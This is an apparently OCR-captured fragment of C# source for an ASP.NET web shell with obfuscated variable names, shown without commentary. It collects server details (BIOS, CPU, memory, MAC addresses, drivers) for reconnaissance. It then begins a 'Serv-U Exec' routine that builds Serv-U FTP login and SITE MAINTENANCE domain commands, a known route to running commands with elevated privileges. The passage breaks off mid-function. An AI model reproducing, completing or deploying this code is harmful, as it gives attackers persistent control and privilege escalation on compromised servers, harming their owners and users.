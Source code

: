 yEwc.Append("&lt;li&gt;&lt;u&gt;Server BIOS : &lt;/u&gt;"+BIOS.Rows[0]["Manufacturer"]+" : "+BIOS.Rows[0]["Name"]+"&lt;/li&gt;");
yEwc.Append("&lt;li&gt;&lt;u&gt;CPU Count : &lt;/u&gt;"+cpu.ToString()+"&lt;/li&gt;");
yEwc.Append("&lt;li&gt;&lt;u&gt;CPU Version : &lt;/u&gt;"+NPPZ+"&lt;/li&gt;");
DataTable upM=cCf("Win32_PhysicalMemory");
Int64 oZnZV=0;
for(int i=0;i&lt;upM.Rows.Count;i++)
{
oZnZV+=Int64.Parse(upM.Rows[0]["Capacity"].ToString());
}
yEwc.Append("&lt;li&gt;&lt;u&gt;Server upM : &lt;/u&gt;"+mTG(oZnZV)+"&lt;/li&gt;");
DataTable dOza=cCf("Win32_NetworkAdapterConfiguration");
for(int i=0;i&lt;dOza.Rows.Count;i++)
{
hwJeS.Append("&lt;li&gt;&lt;u&gt;Server MAC"+i+" : &lt;/u&gt;"+dOza.Rows[i]["Caption"]+"&lt;/li&gt;");
if(dOza.Rows[i]["MACAddress"]!=string.Empty)
{
hwJeS.Append("&lt;li style=\"list-style:none;\"&gt;&lt;u&gt;Address : &lt;/u&gt;"+dOza.Rows[i]["MACAddress"]+"&lt;/li&gt;");
}
}
DataTable Driver=cCf("Win32_SystemDriver");
for (int i=0; i&lt;Driver.Rows.Count; i++)
{
jXkaE.Append("&lt;li&gt;&lt;u class='u1'&gt;Server Driver"+i+" : &lt;/u&gt;&lt;u class='u2'&gt;"+Driver.Rows[i]["Caption"]+"&lt;/u&gt; ");
if (Driver.Rows[i]["PathName"]!=string.Empty)
{
jXkaE.Append("Path : "+Driver.Rows[i]["PathName"]);
}
else
{
jXkaE.Append("No path information");
}
jXkaE.Append("&lt;/li&gt;");
}
Bin_Ul_Sys.InnerHtml=yEwc.ToString();
Bin_Ul_NetConfig.InnerHtml=hwJeS.ToString();
Bin_Ul_Driver.InnerHtml=jXkaE.ToString();
}
catch(Exception error)
{
xseuB(error.Message);
}
}
public void ADCpk()
{
WICxe();
APl.Visible=true;
Bin_H2_Title.InnerText="Serv-U Exec &gt;&gt;";
}
public void lDODR()
{
string JGGg=string.Empty;
string user=dNohJ.Value;
string pass=NMd.Value;
int port=Int32.Parse(HlQl.Value);
string cmd=mHbjB.Value;
string CRtK="user "+user+"\r\n";
string jnNG="pass "+pass+"\r\n";
string site="SITE MAINTENANCE\r\n";
string mtoJb="-DELETEDOMAIN\r\n-IP=0.0.0.0\r\n PortNo=52521\r\n";
string sutI="-SETDOMAIN\r\n-Domain=BIN|0.0.0.0|52521|-1|1|0\r\n-TZOEnable=0\r\n TZOKey=\r\n";